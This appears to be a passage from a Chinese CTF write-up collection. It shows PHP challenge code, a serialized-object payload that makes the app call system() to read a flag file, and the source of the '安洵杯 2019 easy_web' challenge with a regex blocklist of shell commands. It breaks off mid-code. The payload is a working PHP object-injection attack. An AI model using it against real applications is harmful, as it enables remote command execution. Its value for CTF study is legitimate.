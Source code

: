```php
$func = $_REQUEST["func"];
$p = $_REQUEST["p"];
if ($func != null) {
	$func = strtolower($func);
	if (!in_array($func,$disable_fun)) {
		echo gettime($func, $p);
	} else {
		die("Hacker...");
	}
}
?>
```

可以看到过滤了很多函数和字符串，而造成可以运行输入的函数就是`call_user_func`，没有禁用反序列化unserialize函数

```php
class Test {
	var $p = "Y-m-d h:i:s a";
	var $func = "date";
	function __destruct() {
		if ($this->func != "") {
			echo gettime($this->func, $this->p);
		}
	}
}
$a = new Test();
$a->func = "system";
// $a->p =  "ls";
// $a->p =  "find / -name 'flag*'";
$a->p =  "cat /tmp/flagoefiu4r93";
echo serialize($a);

out:
O:4:"Test":2:{s:1:"p";s:22:"cat /tmp/flagoefiu4r93";s:4:"func";s:6:"system";}
```

# 0x27.[安洵杯 2019]easy_web

url中：`index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=`，其中img是hex+base64+base64

把index.php按照上面加密后：

```php+HTML
<?php
error_reporting(E_ALL || ~ E_NOTICE);
header('content-type:text/html;charset=utf-8');
$cmd = $_GET['cmd'];
if (!isset($_GET['img']) || !isset($_GET['cmd'])) 
    header('Refresh:0;url=./index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=');
$file = hex2bin(base64_decode(base64_decode($_GET['img'])));

$file = preg_replace("/[^a-zA-Z0-9.]+/", "", $file);
if (preg_match("/flag/i", $file)) {
    echo '<img src ="./ctf3.jpeg">';
    die("xixi～ no flag");
} else {
    $txt = base64_encode(file_get_contents($file));
    echo "<img src='data:image/gif;base64," . $txt . "'></img>";
    echo "<br>";
}
echo $cmd;
echo "<br>";
if (preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\n|\t|\r|\xA0|\{|\}|\(|\)|\&[^\d]|@|\||\\$|\[|\]|{|}|\(|\)|-|<|>/i", $cmd)) {
```